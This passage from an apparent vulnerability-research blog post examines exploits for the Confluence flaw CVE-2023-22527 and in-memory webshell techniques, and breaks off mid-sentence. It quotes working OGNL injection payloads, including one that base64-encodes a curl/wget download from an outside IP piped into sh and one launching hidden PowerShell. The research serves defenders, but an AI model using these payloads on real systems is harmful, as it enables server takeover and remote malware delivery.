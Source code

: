 ::check-list\\n---\\ntitle: Key Takeaways\\nico: mdi:check-bold\\nlist:\\n - VulnCheck published three proof of concept exploits that can execute arbitrary code within Confluence without touching the filesystem.\\n - There are pre-existing public exploits that use similar techniques to load the infamous Godzilla webshell, and they appear to have been used in the wild.\\n - VulnCheck shares detections and indicators of compromise to aid defenders.\\n---\\n::\\n\\n## Introduction\\n\\nSince its disclosure on \[January 16\](https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html), CVE-2023-22527 has been a hotbed of malicious activity. The vulnerability was quickly added to \[VulnCheck KEV\](https://api.vulncheck.com/v3/index/vulncheck-kev?cve=CVE-2023-22527) on January 21, CISA KEV on January 24, and reports of exploitation have continued through February (see \[Rapid7\](https://www.rapid7.com/blog/post/2024/02/15/rce-to-sliver-ir-tales-from-the-field/) and \[Imperva\](https://www.imperva.com/blog/attackers-quick-to-weaponize-cve-2023-22527-for-malware-delivery/). Not to be outdone, the exploit development community has been busy as well. VulnCheck currently tracks 30 unique exploits for the vulnerability. \\n\\nMany of the exploits we track are largely the same (a phenomenon we’ve touched on \[before\](https://vulncheck.com/blog/new-cve-2022-1388)). Consider the following exploit payloads for CVE-2023-22527:\\n\\n\[Nuclei\](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2023/CVE-2023-22527.yaml):\\n>\`label=aaa\\u0027%2b#request.get(\\u0027.KEY\_velocity.struts2.context\\u0027).internalGet(\\n>\\u0027ognl\\u0027).findValue(#parameters.poc\[0\],{})%2b\\u0027\\n>&poc=@org.apache.struts2.ServletActionContext@getResponse().setHeader(\\n>\\u0027x\_vuln\_check\\u0027,(new+freemarker.template.utility.Execute()).exec({"whoami"}))\`\\n\\n\[Metasploit\](https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/multi/http/atlassian\_confluence\_rce\_cve\_2023\_22527.rb) (Windows Variant - immediately blocked by Defender):\\n>\`label=\\u0027+#request.get(\\u0027.KEY\_velocity.struts2.context\\u0027).internalGet(\\n>\\u0027ognl\\u0027).findValue(#parameters.YDwnBTJF,{})+\\u0027&YDwnBTJF=(new freemarker.template.utility.Execute()).exec({\\n>@org.apache.struts2.ServletActionContext@getRequest().getParameter('PeMYYOlk')})&\\n>PeMYYOlk=cmd.exe /c "powershell.exe -nop -w hidden -noni -c “...\`\\n\\nA payload from the wild as reported by \[Johannes Ullrich\](https://isc.sans.edu/diary/rss/30576) SANS Blog:\\n>\`label=\\\\u0027%2b#request\\\\u005b\\\\u0027.KEY\_velocity.struts2.context\\\\u0027\\\\u005d.internalGet(\\n>\\\\u0027ognl\\\\u0027).findValue(#parameters.x,{})%2b\\\\u0027&x=(new freemarker.template.utility.Execute()).exec({\\n>"echo -n Y3VybCAtcyBodHRwOi8vMTk1LjIxMS4xMjQuMTg0L2FhIHx8IHdnZXQgLXEgLU8tIGh0dHA6Ly8xOTUuMjExLjEyNC4xODQvYWE= | base64 -d | sh"})\`\\n\\nA \[GitHub\](https://github.com/Manh130902/CVE-2023-22527-POC/) example:\\n>\`label=\\u0027%2b#request\\u005b\\u0027.KEY\_velocity.struts2.context\\u0027\\u005d.internalGet(\\n>\\u0027ognl\\u0027).findValue(#parameters.x,{})%2b\\u0027&\\n>x=@org.apache.struts2.ServletActionContext@getResponse().setHeader(\\n>'X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({'"+ cmd +"'}))\`\\n\\nWhat all these exploits have in common is that they use \`freemarker.template.utility.Execute\` to execute an operating system command. Which, you’ll know if you ever try to throw the Metasploit Windows payload, is a great way to get caught and subsequently blocked by endpoint detection.\\n\\nDear attacker, all is not lost. Loading into and executing code from Confluence’s memory works like a dream. Due to the magic of OGNL and Java reflection, there is no limit to what you can do.\\n\\n## Dreaming of Shells\\n\\nOriginally, we approached this “execute out of memory” problem using \[Nashorn\](https://en.wikipedia.org/wiki/Nashorn\_(JavaScript\_engine)). While that worked (and we’ll discuss it later in the blog), there is a significantly better approach.\\n\\nDuring VulnCheck’s standard GitHub exploit review for \[XDB\](https://vulncheck.com/xdb), we stumbled upon this \[repository\](https://raw.githubusercontent.com/Boogipop/CVE-2023-22527-Godzilla-MEMSHELL/main/src/main/Main.java) that exploits CVE-2023-22527 to load the \[Godzilla webshell\](https://malpedia.caad.fkie.fraunhofer.de/details/jsp.godzilla\_webshell) into memory. It contains at least three novel techniques that we weren’t aware of:\\n\\n1. It alters the max length of an OGNL expression to overcome space issues in CVE-2023-22527 exploitation. By default, Confluence appears to restrict expressions to 200 characters. Both \[Project Discovery\](https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/) and \[Rapid7\](https://attackerkb.com/assessments/f4db997d-7a6a-4670-8c3a-0f660db486d4) shared different work-arounds for this limitation, but this new method completely removes the restriction.\\n2. The exploit uses \[org.springframework.cglib.core.ReflectUtils.defineClass()\](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/cglib/core/ReflectUtils.html) to load a class into memory from a byte string.\\n3. The loaded class is a \[ServletRequestListener\](https://tomcat.apache.org/tomcat-7.0-doc/servletapi/index.html?javax/servlet/ServletRequestListener.html) and registers to receive \[ServletRequestEvents\](https://tomcat.apache.org/tomcat-7.0-doc/servletapi/index.html?javax/servlet/ServletRequestListener.html). Meaning the uploaded class can intercept all HTTP requests to Confluence.\\n\\nThese three clever ideas combine to create a very powerful in-memory webshell. In the following sections, we’ll